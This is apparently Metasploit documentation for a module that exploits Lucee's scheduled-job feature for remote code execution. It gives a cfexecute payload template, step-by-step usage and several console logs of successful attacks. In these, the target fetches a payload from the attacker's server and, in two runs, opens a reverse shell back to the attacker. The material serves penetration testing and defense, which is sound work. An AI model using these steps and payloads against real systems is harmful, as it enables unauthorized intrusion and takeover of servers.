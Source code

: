 # Vulnerable Application
Lucee is an Open Source ColdFusion server/engine intended for rapid web development. Many implementations of
ColdFusion files support dynamic input and server side code execution.
In the case of this module, Lucees implementation supports the use of `cfexecute` and `cfscript` tags in `.cfm` files.

In addition to these features, Lucee provides a scheduled job feature. This feature will accept an
external `url` argument and query that page on execution. If logging is enabled, it is possible to
query a remote ColdFusion document, log it in the web root, and access it to execute its code,
subsequently achieving arbitrary server side code execution. The payload will run as the user 
specified during the Lucee installation. On Windows, this is a service account; on Linux, 
it is either the root user or lucee.

The series of requests to achieve this is as follows.

1. Authenticate as the administrator to the web admin panel
2. Create a scheduled job that includes a URL to the remote ColdFusion document
3. Update the scheduled job to turn on logging and ensure that the remote document is logged to the web root
4. Execute the scheduled job. The Lucee server will now reach out to and download the ColdFusion document from the attackers server
5. Access the document at the web root of the server, thus executing the payload.

The basic format for the remote ColdFusion document is as follows.
```html
<cfscript>
            cfexecute(name="powershell.exe", arguments="-c whoami",timeout=5);
</cfscript>
```

The scheduled job feature of Lucee is available in all versions currently available through the vendors website,
available [here](https://download.lucee.org/).As this is default functionality that does not require
any additional setup/configuration, the application is vulnerable immediately upon setup.

## Verification Steps

1. Download and install Lucee from the vendors website. This can be done on either a Windows or Unix host.
   No additional setup is needed beyond the initial installation walkthrough
2. Start MSF Console
3. Do: `use multi/http/lucee_scheduled_job`
4. Choose a target that reflects the target system
	- `use X` (0 for Windows, 1 for Linux)
5. Select payload. This functions with command execution payloads and supports reverse shells and generic commands.
6. Select the desired payload and complete its requirement. `CMD`, `LHOST`, `LPORT`, etc.
7. Select the appropriate `RHOST`, `PASSWORD`, and (if necessary), the `TARGETURI`
8. Execute the payload. You should either receive a shell or see the output of your command.

## Options

### RHOSTS

Remote host to target.

### RPORT

Port being used by the Lucee admin panel. Default is 8888

### PASSWORD

The password of the administrative user. Lucee does not use a username, only a password to access the admin panel.

#### TARGETURI

Target URI of the Lucee administrator panel. Default is

`/lucee/admin/web.cfm/`


`EXECUTE_DELAY`

Periodically, it may take a moment for Lucee to download the entire payload and the scheduled job may try to
execute it before it is available. Adding a brief (default 1 second) delay helps control execution flow for reliable exploitation.

## Scenarios
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 for a service account shell
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/windows/powershell_reverse_tcp
payload => cmd/windows/powershell_reverse_tcp
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(multi/http/lucee_scheduled_job) > set LHOST 10.0.0.45
LHOST => 10.0.0.45
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 10.0.0.45:4444 
[+] Authenticated Successfully
[*] Using URL: http://10.0.0.45:8080/isBlgz8g70.cfm
[+] Job isBlgz8g70 created successfully
[+] Job isBlgz8g70 updated successfully
[*] Executing scheduled job: isBlgz8g70
[+] Job isBlgz8g70 executed successfully
[*] 10.0.0.164:8888 - Payload request received: /isBlgz8g70.cfm?RequestTimeout=50
[*] Powershell session session 1 opened (10.0.0.45:4444 -> 10.0.0.164:50288) at 2023-02-17 07:20:28 -0600
[+] Payload isBlgz8g70 executed.
[+] Exploit completed.
[*] Removing scheduled jobisBlgz8g70
[+] Scheduled job removed.
[*] Server stopped.

PS C:\lucee\tomcat> whoami
nt authority\local service

```
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 executing whoami
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated Successfully
[*] Using URL: http://192.168.19.145:8080/59KomN8V.cfm
[+] Job 59KomN8V created successfully
[+] Job 59KomN8V updated successfully
[*] Executing scheduled job: 59KomN8V
[+] Job 59KomN8V executed successfully
[*] 10.0.0.164:8888 - Payload request received: /59KomN8V.cfm?RequestTimeout=50
[+] Payload 59KomN8V executed.
[*] Output: nt authority\local service

[+] Exploit completed.
[*] Removing scheduled job59KomN8V
[+] Scheduled job removed.
[*] Server stopped.
[*] Exploit completed, but no session was created.
```

### Successful exploitation of a Lubuntu host running Lucee 5.1.4.19 for a shell as Lucee
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/lucee_scheduled_job) > set LHOSTS 10.0.0.45
LHOST => 10.0.0.45
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.33
RHOSTS => 10.0.0.33
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 10.0.0.45:4444 
[+] Authenticated Successfully
[*] Using URL: http://10.0.0.45:8080/l4jMgDxdGFxP.cfm
[+] Job l4jMgDxdGFxP created successfully
[+] Job l4jMgDxdGFxP updated successfully
[*] Executing scheduled job: l4jMgDxdGFxP
[+] Job l4jMgDxdGFxP executed successfully
[*] 10.0.0.33:8888 - Payload request received: /l4jMgDxdGFxP.cfm?RequestTimeout=50
[+] Payload l4jMgDxdGFxP executed.
[+] Exploit completed.
[*] Removing scheduled jobl4jMgDxdGFxP
[+] Scheduled job removed.
[*] Command shell session 1 opened (10.0.0.45:4444 -> 10.0.0.33:45452) at 2023-02-17 07:51:48 -0600
[*] Server stopped.

id
uid=999(lucee) gid=998(lucee) groups=998(lucee)
```
### Successful exploitation of a Lubuntu host running Lucee 5.1.4.19 executing whoami
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.33
RHOSTS => 10.0.0.33
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated Successfully
[*] Using URL: http://192.168.19.145:8080/okC09hxj.cfm
[+] Job okC09hxj created successfully
[+] Job okC09hxj updated successfully
[*] Executing scheduled job: okC09hxj
[+] Job okC09hxj executed successfully
[*] 10.0.0.33:8888 - Payload request received: /okC09hxj.cfm?RequestTimeout=50
[+] Payload okC09hxj executed.
[*] Output: lucee

[+] Exploit completed.
[*] Removing scheduled jobokC09hxj
[+] Scheduled job removed.
[*] Server stopped.
[*] Exploit completed, but no session was created.
```
## Caveats
There are a few caveats worth mentioning that are inherent to Lucees implementation of ColdFusion
 - ColdFusion does not reliably execute staged payloads appropriately
 - When a shell command returns multiple lines of output, coldfusion may limit the amount that is returned; i.e. it
   will return the full value of an `ls` command, but it may not return the full value of `netstat`